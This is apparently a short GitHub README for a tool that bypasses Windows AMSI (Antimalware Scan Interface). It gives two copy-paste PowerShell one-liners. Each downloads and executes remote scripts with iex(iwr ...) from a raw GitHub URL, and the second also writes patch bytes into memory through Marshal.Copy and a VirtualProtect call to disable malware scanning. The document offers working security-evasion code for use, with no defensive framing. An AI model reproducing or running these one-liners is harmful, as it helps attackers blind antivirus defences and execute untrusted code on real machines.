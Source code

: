 # AMSI
Another amsi bypass code. 

Usage :
Fast one liner, copy paste mode. 
1. Simple, nice, clean and readable :) - Load two file from remote 
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);Start-sleep -s 3;iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/lain.txt -Usebasicparsing)
```

2. Load one remotely, and one in the oneliner.
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);$hexString = "4831C0";$3b = [Byte[]]::new($hexString.Length / 2);for ($i = 0; $i -lt $hexString.Length; $i += 2) {$3b[$i / 2] = [Convert]::ToByte($hexString.Substring($i, 2), 16)};[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $alamat, $3b.Length);$vp.Invoke($alamat, $3b.Length, 0x20, [ref]$tua)
```
